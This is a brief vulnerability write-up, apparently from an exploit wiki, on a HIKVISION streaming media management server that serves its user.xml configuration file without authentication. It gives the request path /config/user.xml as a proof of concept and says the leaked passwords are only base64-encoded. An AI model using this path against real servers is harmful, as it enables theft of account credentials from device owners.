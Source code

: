 # HIKVISION Streaming Media Management Server user.xml Account Password Leak Vulnerability

## Vulnerability Description

The HIKVISION streaming media management server configuration file has not been authenticated, and the attacker can obtain the website account password through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">HIKVISION Streaming Media Management Server</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628165281195-23ed2181-1200-4dad-bf4a-047e382c34f4.png)

Verify POC

```plain
/config/user.xml
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628165582265-eddb47a5-1100-40bf-9d92-4d9e9aad3dc0.png)

The account password in the picture is base64 encryption